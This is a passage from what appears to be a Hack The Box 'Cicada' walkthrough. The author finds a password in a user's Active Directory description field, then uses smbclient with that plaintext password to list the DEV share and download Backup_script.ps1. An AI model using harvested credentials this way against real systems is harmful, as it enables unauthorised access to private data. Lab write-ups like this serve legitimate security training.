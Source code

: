 Once got the output i saved it in a file and analyzed it:

![](attachment/61ba87fd9a0d7d79a09f4f44c942deb3.png)

There's a password in description field for David Orelius:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient //cicada.htb/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:aRt$Lp#7t*VQ!3
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 49639 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.6 KiloBytes/sec) (average 2.6 KiloBytes/sec)
smb: \> 
```

![](attachment/b7e32f9f0bfccdedfe327877af1673bf.png)

